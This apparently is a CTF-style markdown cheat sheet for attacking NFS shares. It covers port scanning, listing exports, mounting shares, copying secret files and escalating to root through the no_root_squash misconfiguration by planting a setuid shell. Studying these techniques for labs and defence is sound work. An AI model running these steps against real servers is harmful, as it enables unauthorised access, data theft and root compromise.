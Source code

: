 ``### 🔍 **1. NFS Enumeration**

#### Check NFS Ports (usually 2049/tcp)

```bash
nmap -p 111,2049 -sV -sC 10.10.X.X
```

####  List NFS Exports

```bash
showmount -e 10.10.X.X
```

> Output example:

```
Export list for 10.10.X.X:
/share        *
/confidential 10.10.0.0/24
```

---

###  **2. Mounting NFS Share**

####  Create a mount directory

```bash
mkdir -p ~/nfs_mount
```

####  Mount the remote share

```bash
sudo mount -t nfs 10.10.X.X:/share ~/nfs_mount
```

####  NFSv4 Mount (if v3 fails)

```bash
sudo mount -t nfs4 10.10.X.X:/ ~/nfs_mount
# Then access subdirs like: ~/nfs_mount/confidential
```

####  Unmount when done

```bash
sudo umount ~/nfs_mount
```

---

###  **3. Useful Enumeration Commands After Mount**

```bash
ls -la ~/nfs_mount
find ~/nfs_mount -type f -name "*.txt"
find ~/nfs_mount -perm -4000 2>/dev/null   # Look for SUID binaries
strings ~/nfs_mount/filename               # Inspect files
```

---

###  **4. Downloading Files from NFS**

Once mounted, just copy files as if local:

```bash
cp ~/nfs_mount/flag.txt .
cp -r ~/nfs_mount/secrets/ .
```

---

###  **5. Exploitation Tricks**

####  Writable Share? Create file to test:

```bash
touch ~/nfs_mount/testfile.txt
```

If it works, the share is **writable** — big opportunity for escalation!

#### 🐚 Privilege Escalation (Writable + Root Squash Disabled)

1. On your machine (must be **same UID/GID** as target):

```bash
sudo chown 0:0 ./shell
chmod +s ./shell
cp ./shell ~/nfs_mount/
```

2. On the target machine, run the setuid shell for root shell:

```bash
./shell
```

✅ Exploits `no_root_squash` misconfig.

---

###  **6. Clean Up**

```bash
sudo umount ~/nfs_mount
rm -rf ~/nfs_mount
```

---

## 🧠 Quick Notes:

|Term|Meaning|
|---|---|
|`no_root_squash`|Dangerous: lets NFS clients act as root on server|
|`root_squash`|Default: remaps root to nobody user|
|`/etc/exports`|NFS export configuration on server|
|Port `2049`|NFS main service|
|Port `111`|Portmapper (RPC service)|

---
